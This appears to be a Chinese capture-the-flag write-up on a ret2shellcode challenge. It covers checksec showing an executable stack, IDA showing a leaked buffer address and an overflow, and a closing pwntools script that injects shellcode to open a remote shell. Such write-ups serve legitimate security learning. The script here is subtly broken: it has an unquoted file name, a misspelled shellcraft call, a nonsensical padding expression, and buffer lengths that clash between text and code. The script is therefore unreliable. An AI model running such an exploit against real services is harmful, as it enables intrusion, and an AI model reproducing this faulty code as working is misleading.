 第一步：用我们的 `checksec` 来找到我们的对应的框架是什么。
![[Pasted image 20231204214643.png]]
然后，我们发现，我们这个已经打开了我们的 `RWX segments`,并且我们的栈本身是可读可写可执行的。

第二步：用我们的 `IDA` 打开我们的函数，我们能够发现我们具有下面的特性。
![[Pasted image 20231204214746.png]]
我们发现，我们能够直接获得我们的 buf 的地址在哪里，然后我们可以向我们的这个缓冲区溢出，因为我们的缓冲区 `长度位88`，实际写入是最多 `100`

第三步：我们就可以把我们的 `shellcode` 写入到我们的 `buf` 地址中，然后把这个地址作为偶们的 shellcode 地址，让我们溢出。

```python
from pwn import *
io=remote("11.11.11.1",1111)
elf=ELF(./ret2shellcode)
shellcode=asm(shellcodecraft.sh())
text=io.recvline();
buf_addr=int(text,16)
payload=shellcode+b'a'*90*(0x88+0x4-len(shellcode))+p32(buf_addr)
io.sendline(payload)
io.interactive()
```
